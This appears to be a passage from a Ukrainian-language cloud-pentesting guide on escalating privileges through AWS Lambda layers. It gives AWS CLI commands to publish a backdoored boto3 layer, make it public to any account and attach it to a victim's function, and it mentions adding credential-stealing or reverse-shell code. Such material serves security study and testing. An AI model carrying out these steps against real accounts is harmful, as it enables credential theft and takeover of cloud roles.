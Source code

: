Наприклад, давайте припустимо, що лямбда використовує бібліотеку boto3, це створить локальний шар з останньою версією бібліотеки:
```
pip3 install -t ./lambda_layer boto3
```
Ви можете відкрити `./lambda_layer/boto3/__init__.py` та **додати задній прохід у глобальний код** (наприклад, функцію для витягування облікових даних або отримання зворотного шелу).

Потім стисніть цю директорію `./lambda_layer` та **завантажте новий шар lambda** у свій власний обліковий запис (або в обліковий запис жертви, але у вас може не бути дозволів на це).\
Зверніть увагу, що вам потрібно створити папку python та помістити бібліотеки туди, щоб перезаписати /opt/python/boto3. Крім того, шар повинен бути **сумісний з версією Python**, яку використовує lambda, і якщо ви завантажуєте його у свій обліковий запис, він повинен бути в **тому ж регіоні:**

{% code overflow="wrap" %}
```bash
aws lambda publish-layer-version --layer-name "boto3" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"
```
{% endcode %}

Зараз зробіть завантажений шар lambda **доступним для будь-якого облікового запису**:
```bash
aws lambda add-layer-version-permission --layer-name boto3 \
--version-number 1 --statement-id public \
--action lambda:GetLayerVersion --principal *
```
І додайте шар lambda до функції lambda жертви:
```bash
aws lambda update-function-configuration \
--function-name <func-name> \
--layers arn:aws:lambda:<region>:<attacker-account-id>:layer:boto3:1 \
--timeout 300 #5min for rev shells
```
Наступним кроком буде або **викликати функцію** самостійно, якщо ми можемо, або зачекати, поки вона буде **викликана** звичайними засобами - це безпечніший метод.

**Більш прихований спосіб використання цієї вразливості** можна знайти в:

{% content-ref url="../aws-persistence/aws-lambda-persistence/aws-lambda-layers-persistence.md" %}
[aws-lambda-layers-persistence.md](../aws-persistence/aws-lambda-persistence/aws-lambda-layers-persistence.md)
{% endcontent-ref %}

**Потенційний вплив:** Пряме підвищення привілеїв до використаної ролі служби лямбда.

### `?iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateFunctionUrlConfig`, `lambda:InvokeFunctionUrl`

Можливо, з цими дозволами ви зможете створити функцію та виконати її, викликавши URL... але я не зміг знайти спосіб це перевірити, тому дайте знати, якщо ви це зробите!

### Прослуховування Lambda

Деякі лямбди будуть **отримувати чутливу інформацію від користувачів у параметрах.** Якщо ви отримаєте RCE в одній з них, ви зможете витягти інформацію, яку інші користувачі надсилають до неї, перевірте це в:
